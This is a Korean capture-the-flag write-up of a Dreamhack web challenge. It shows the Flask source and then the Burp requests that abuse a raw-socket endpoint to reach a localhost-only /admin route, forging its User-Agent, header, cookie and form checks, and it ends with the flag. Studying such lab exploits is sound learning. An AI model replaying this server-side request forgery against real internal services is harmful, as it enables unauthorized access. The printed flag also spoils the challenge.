






문제는 **Raw Socket Sender가 구현된 서비스입니다. 요구하는 조건을 맞춰 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.** 이다.

먼저 코드를 봤다.

```python
#!/usr/bin/python3

from flask import Flask, request, render_template, make_response, redirect, url_for
import  socket

app  = Flask(__name__)

try:
	FLAG  =  open('./flag.txt', 'r').read()
except:
	FLAG  =  '[**FLAG**]'

@app.route('/')
def index():
	return render_template('index.html')

@app.route('/socket', methods=['GET', 'POST'])
def login():
	if request.method ==  'GET':
		return render_template('socket.html')
	elif request.method ==  'POST':
		host  = request.form.get('host')
		port  = request.form.get('port', type=int)
		data  = request.form.get('data')

		retData  =  ""
		try:
			with  socket.socket(socket.AF_INET, socket.SOCK_STREAM) as  s:
		s.settimeout(3)
		s.connect((host, port))
		s.sendall(data.encode())
		while  True:
			tmpData  =  s.recv(1024)
			retData  +=  tmpData.decode()
			if  not  tmpData: break

	except  Exception  as  e:
		return render_template('socket_result.html', data=e)

	return render_template('socket_result.html', data=retData)

  
@app.route('/admin', methods=['POST'])
def admin():
	if request.remote_addr !=  '127.0.0.1':
		return  'Only localhost'

	if request.headers.get('User-Agent') !=  'Admin Browser':
		return  'Only Admin Browser'

	if request.headers.get('DreamhackUser') !=  'admin':
		return  'Only Admin'

	if request.cookies.get('admin') !=  'true':
		return  'Admin Cookie'

	if request.form.get('userid') !=  'admin':
		return  'Admin id'

	return  FLAG

app.run(host='0.0.0.0', port=8000)
```

주요 path는 3가지가 있다.  
(1)   
(2)   

1. / 페이지
index.html 를 render 함

2. /socket 페이지
POST를 통해 **host, port, data** 를 소켓 프로그래밍을 통해 (host, port)로 data를 전송

3. /admin 페이지
현재 상황이 주어진 조건에 해당하는지 확인함(사이트에는 나타나지 않음)  

우선 Burp Suite를 통해 다음과 같이 테스트 값을 입력한 후 POST 형식의 request를 확인했다.  

  

```http
POST /socket HTTP/1.1
Host: host1.dreamhack.games:24098
Content-Length: 39
Cache-Control: max-age=0
Accept-Language: ko-KR,ko;q=0.9
Origin: http://host1.dreamhack.games:24098
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host1.dreamhack.games:24098/socket
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

host=127.0.0.1&port=8000&data=test+data
```

위와 같은 요청을 하면, 다음과 같이 timed out이 발생했다. 결론적으로 socket 프로그래밍 결과를 보여준다.  

  

즉, 위의 있는 request 형식에서 조건에만 맞게 수정하면 될 것이다.
(https://www.geeksforgeeks.org/http-headers-cookie/)
(https://velog.io/@sangmin7648/%EC%98%A4%EB%8A%98%EC%9D%98-%EB%B0%B0%EC%9B%80-045)
(https://developer.mozilla.org/ko/docs/Web/HTTP/Methods/POST)  

```http
POST /socket HTTP/1.1
Host: host1.dreamhack.games:24098
Content-Length: 12
Cache-Control: max-age=0
Accept-Language: ko-KR,ko;q=0.9
Origin: http://host1.dreamhack.games:24098
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Admin Browser
Cookie: admin=true
DreamhackUser: admin
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host1.dreamhack.games:24098/socket
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

userid=admin
```

다음과 같은 request를 data에 넣어서 보내면, admin에서 작동할 것이다.(참고로 Content-Length 는 "userid=admin"의 길이(12)를 넣어야 한다.)  

  

위와 같은 결과가 나왔다.  
무슨 이유 때문에 이렇게 나왔지?  

```http
POST /admin HTTP/1.1
Host: host1.dreamhack.games:24098
Content-Length: 12
Cache-Control: max-age=0
Accept-Language: ko-KR,ko;q=0.9
Origin: http://host1.dreamhack.games:24098
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Admin Browser
Cookie: admin=true
DreamhackUser: admin
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host1.dreamhack.games:24098/socket
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

userid=admin
```

메소드(POST) 다음에 **/admin** 이 들어가야 한다.(path가 /admin 이므로)  
그것만 수정하면 아래와 같은 결과가 나온다.  

  

정답은 **DH{9bb7177b6267ff7288e24e06d8dd6df5}** 이다.